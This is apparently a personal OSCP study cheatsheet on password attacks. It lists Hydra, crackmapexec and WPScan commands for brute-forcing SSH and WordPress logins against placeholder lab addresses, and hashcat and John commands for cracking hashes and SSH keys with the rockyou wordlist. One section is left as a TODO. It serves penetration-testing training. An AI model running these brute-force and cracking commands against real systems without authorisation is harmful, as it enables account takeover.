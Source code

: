 ```yaml
---
title: Password Attacks
author: linatl
category: "OSCP"
date: "2021-03-05 00:01"
tags: [OSCP, Cheatsheet]
layout: post
---
```


###### Figuring out the kind of hash
```
$ hashid -e hash.txt
$ hash-identifier
```

###### Bruteforcing with Hydra
```
$ hydra -e nsr -l username -P /usr/share/wordlists/rockyou.txt 10.10.10.10 ssh
"-e nsr" = try "n" null password, "s" login as pass and/or "r" reversed login
```

###### Bruteforcing with Crackmapexec
```
$ crackmapexec ssh 10.10.10.10 -u users.txt -p passwords.txt
Other protocols with crackmapexec: ldap,mssql,winrm,smb
```

###### Password policy
```
$ net accounts

For Active Directory from powershell:
$ Get-ADDefaultDomainPasswordPolicy
```


###### Password spraying
```

```
/////////////TODO:

###### Hashcat
```
$ echo "$1$hash" > hash.txt
$ hashcat -a 0 -m 500 hash.txt /usr/share/wordlists/rockyou.txt
```

###### John
```
$ echo "$1$hash" > hash.txt
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
$ john hash.txt --show

cracking id_rsa key
python2.7 /usr/share/john/ssh2john.py ./id_rsa > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

###### WPScan
```
wpscan --url http://10.10.10.10/wp/wp-login.php --passwords /usr/share/wordlists/rockyou.txt --usernames username
```

###### Other online tools
```
CyberChef (GHCQ)
https://github.com/gchq/CyberChef
```
